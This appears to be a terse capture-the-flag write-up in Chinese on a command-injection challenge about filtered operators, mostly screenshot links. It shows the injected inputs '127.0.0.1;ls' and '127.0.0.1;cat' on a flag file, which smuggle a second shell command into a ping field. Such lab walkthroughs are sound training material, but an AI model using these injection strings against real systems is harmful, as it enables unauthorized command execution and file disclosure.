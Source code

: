 ![1687105367249](image/过滤运算符/1687105367249.png)


127.0.0.1;ls

![1687105590692](image/e.过滤运算符/1687105590692.png)


127.0.0.1;cat flag_28759305322018.php

![1687105634774](image/e.过滤运算符/1687105634774.png)

右键查看源码，得出flag

![1687105667790](image/e.过滤运算符/1687105667790.png)

